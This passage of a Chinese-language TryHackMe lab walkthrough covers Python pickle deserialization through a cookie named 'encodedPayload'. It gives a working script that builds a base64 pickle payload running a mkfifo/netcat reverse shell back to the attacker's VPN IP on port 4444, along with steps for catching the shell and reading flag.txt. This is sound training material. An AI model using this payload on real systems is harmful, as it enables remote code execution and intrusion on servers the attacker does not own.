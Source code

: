5.将其粘贴到浏览器中的“encodedPayload”cookie值中：

![image-20221207160531109](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207160531109.png)

6.确保我们的攻击机上的 netcat 侦听器仍在运行：

![image-20221207160616402](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207160616402.png)

7.在个人资料页面 点击提交反馈对应的URL链接(这将触发对cookie值进行反序列化的过程)，在攻击机上将接收到一个反向shell，我们可以通过这个shell界面查看flag.txt文件内容：

![image-20221207160723115](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207160723115.png)

**答题**

![image-20221207160901060](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207160901060.png)

实际操作步骤和本节内容所介绍的基本一致：

修改userType值为user

![image-20221207161146842](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207161146842.png)

回到个人资料页面 http://MACHINE\_IP/myprofile ，点&#x51FB;_&#x45;xchange your vi&#x6D;_&#x94FE;接（此处的vim指：Vertical Improved Mail--垂直改进邮件）

![image-20221207161312676](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207161312676.png)

点击链接之后，我们可以看到cookie发生了变化

![image-20221207162549336](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207162549336.png)

现在可以开始反序列化漏洞利用过程：主要操作是构建一段经过base64编码处理的恶意代码，用恶意代码替换上图中的指定cookie值--即encodedPayload的值；我们使用以下py脚本来生成一段可以用于建立反向shell的base64格式的payload：

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

修改ip地址为攻击机ip地址(此处ip地址为tun0网卡对应地址)

![image-20221207163535284](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221207163535284.png)

在攻击机上设置Netcat监听器：
